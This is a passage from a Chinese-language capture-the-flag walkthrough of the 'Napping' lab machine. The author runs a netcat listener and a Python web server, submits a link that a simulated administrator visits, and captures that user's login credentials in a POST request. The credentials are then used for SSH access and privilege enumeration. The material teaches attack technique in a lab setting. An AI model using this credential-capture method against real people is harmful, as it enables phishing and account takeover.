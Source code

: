    - `kali`开启监听
        
        ```python
        nc -lvp 1234
        ```
        
    - 然后在页面上提交`http://192.168.56.10/a.html` ，随后等待管理员检查链接
        
        简易服务器发现有人请求`a.html`了
        
        ```python
        python -m http.server 80
        Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
        192.168.56.3 - - [10/Nov/2024 16:22:05] "GET /a.html HTTP/1.1" 200 -
        ```
        
        查看nc,得到用户凭证
        
        ```python
        nc -lvp 1234
        listening on [any] 1234 ...
        192.168.56.3: inverse host lookup failed: Unknown host
        connect to [192.168.56.10] from (UNKNOWN) [192.168.56.3] 43212
        POST /login.htm HTTP/1.1
        Host: 192.168.56.10:1234
        User-Agent: python-requests/2.22.0
        Accept-Encoding: gzip, deflate
        Accept: */*
        Connection: keep-alive
        Content-Length: 45
        Content-Type: application/x-www-form-urlencoded
        
        username=daniel&password=C%40ughtm3napping123 
        ```
        

## 获得shell

1. 得到用户凭证后，尝试登录`ssh`
    
    ```python
    daniel
    C@ughtm3napping123
    ```
    
    登陆成功
    
2. 查看权限

```python
daniel@napping:~$ whoami                                                                │┌──(root㉿kali)-[~/Desktop/test/diaoyu]
daniel                                                                                  │└─# python -m http.server 80
daniel@napping:~$ id                                                                    │Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
uid=1001(daniel) gid=1001(daniel) groups=1001(daniel),1002(administrators)              │^C
daniel@napping:~$ uname -a                                                              │Keyboard interrupt received, exiting.
Linux napping 5.4.0-89-generic #100-Ubuntu SMP Fri Sep 24 14:50:10 UTC 2021 x86_64 x86_6│                                                                                                         
4 x86_64 GNU/Linux 
```
